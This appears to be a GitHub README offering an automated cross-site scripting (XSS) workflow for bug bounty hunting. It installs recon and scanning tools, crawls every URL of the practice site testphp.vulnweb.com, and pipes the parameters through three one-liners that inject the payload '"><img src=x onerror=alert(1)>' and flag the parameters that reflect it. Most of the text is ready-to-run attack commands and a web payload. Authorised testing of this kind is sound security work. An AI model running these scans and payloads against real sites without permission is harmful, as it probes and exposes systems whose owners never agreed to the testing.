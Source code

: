 # XSS-OneLiner
Simple One Liner for finding XSS using automation

### Install tools
```bash
git clone https://github.com/rootbakar/bugbounty-toolkit
```
```bash
cd bugbounty-toolkit
```
```bash
chmod +x install_bounty_tools.sh
```
```bash
./install_bounty_tools.sh
```
```bash
go install -v github.com/Emoe/kxss@latest
```
```bash
go install github.com/rix4uni/xsschecker@latest
```
```bash
sudo cp ~/go/bin/kxss ~/go/bin/xsschecker /usr/local/bin
```

### Get All URLs
```bash
echo "testphp.vulnweb.com" | httpx -silent | katana -silent > katana.txt; echo "testphp.vulnweb.com" | httpx -silent | hakrawler -u > hakrawler.txt; echo "testphp.vulnweb.com" | waybackurls > waybackurls.txt; echo "testphp.vulnweb.com" | gau > gau.txt; cat katana.txt hakrawler.txt waybackurls.txt gau.txt | urldedupe -qs | httpx -silent | anew urls.txt
```

### XSS One Liner
**Command 1:**
```bash
cat urls.txt | qsreplace '"><img src=x onerror=alert(1)>' | kxss
```
![image](https://github.com/user-attachments/assets/7141d4af-a977-45dc-9cca-baafae48c606)

**Command 2:**
```bash
cat urls.txt | qsreplace '"><img src=x onerror=alert(1)>' | xsschecker -match '"><img src=x onerror=alert(1)>' -vuln
```
![image](https://github.com/user-attachments/assets/eec47e25-2ba6-4abf-be0f-727675830a53)


**Command 3:**
```bash
cat urls.txt  | qsreplace '"><img src=x onerror=alert(1)>' | freq | egrep -v 'Not'
```
![image](https://github.com/user-attachments/assets/017f6824-6b56-4d4c-a02d-f8aea95070c9)


